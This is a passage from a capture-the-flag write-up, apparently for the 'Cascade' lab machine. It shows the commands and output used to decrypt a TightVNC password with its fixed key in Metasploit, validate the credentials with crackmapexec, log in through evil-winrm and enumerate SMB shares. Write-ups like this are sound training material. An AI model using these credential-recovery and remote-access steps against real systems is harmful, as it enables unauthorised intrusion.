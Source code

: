 It looks like that we need to get to the **Active Directory Recycle Bin** to get information about the _TempAdmin_ user.
To do that, access to the **TightVNC** password seems to be necessary.

### Decrypting TightVNC Password

The registry file contains an encrypted password for **TightVNC** and as the software uses a [fixed key](https://github.com/frizb/PasswordDecrypts), it can be decrypted with the **Metasploit Ruby Shell (IRB)**:
```
msf6 > irb

fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
require 'rex/proto/rfb'
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```
```
sT333ve2
```

As this file was in the folder of _s.smith_, the password probably belongs to that user:
```
crackmapexec winrm 10.10.10.182 -u s.smith -p sT333ve2

WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```

The user has enough privileges to authenticate to the **WinRM** service, so lets use [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to connect there:
```
evil-winrm.rb -i 10.10.10.182 -u s.smith -p sT333ve2
```

## Privilege Escalation

The user _s.smith_ is in an unusual group called _Audit Share_:
```
net users /domain s.smith

(...)
Local Group Memberships
- Audit Share
- IT
- Remote Management Use
```

This group membership grants this user access to the _Audit share_:
```
smbmap -H 10.10.10.182 -u s.smith -p sT333ve2
```
```
Disk        Permissions     Comment
----        -----------     -------
ADMIN$      NO ACCESS       Remote Admin
Audit$      READ ONLY
(...)
```
